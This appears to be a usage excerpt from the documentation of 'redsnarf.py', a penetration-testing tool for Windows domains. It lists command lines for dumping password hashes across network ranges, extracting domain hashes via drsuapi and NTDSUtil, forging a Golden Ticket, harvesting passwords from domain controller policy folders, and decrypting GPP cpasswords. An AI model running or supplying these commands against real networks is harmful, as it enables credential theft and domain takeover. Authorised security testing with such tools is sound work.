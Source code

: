 **./redsnarf.py -H range=10.0.0.1/24 -hS credsfile -d .**



Retrieve Hashes across a network range domain login  

**./redsnarf.py -H range=10.0.0.1/24 -hS credsfile -d yourdomain.com**



Quickly Check Credentials  

**./redsnarf.py -H ip=10.0.0.1 -u administrator -p Password1 -d . -cQ y**



Quickly Check File containing usernames (-hS) and a generic password (-hP)  

**./redsnarf.py -H ip=10.0.0.1 -hS /path/to/usernames.txt -hP PasswordToTry -cQ y**



Retrieve Domain Hashes

=======================



Retrieve Hashes using drsuapi method (Quickest)  

This method supports an optional flag of -q y which will query LDAP and output whether accounts are live or disabled

**./redsnarf.py -H ip=10.0.0.1 -u administrator -p Password01 -d yourdomain.com -hI y (-hQ y)**



Retrieve Hashes using NTDSUtil  

This method supports an optional flag of -q y which will query LDAP and output whether accounts are live or disabled

**./redsnarf.py -H ip=10.0.0.1 -u administrator -p Password01 -d yourdomain.com -hN y (-hQ y)**



Golden Ticket Generation  

**./redsnarf.py -H ip=10.0.0.1 -u administrator -p Password01 -d yourdomain.com -hT y**



Information Gathering

=======================



Copy the Policies and Scripts folder from a Domain Controller and parse for password and administrator  

**./redsnarf.py -H ip=10.0.0.1 -u administrator -p Password01 -d yourdomain.com -uP y**



Decrypt Cpassword  

**./redsnarf.py -uG cpassword**


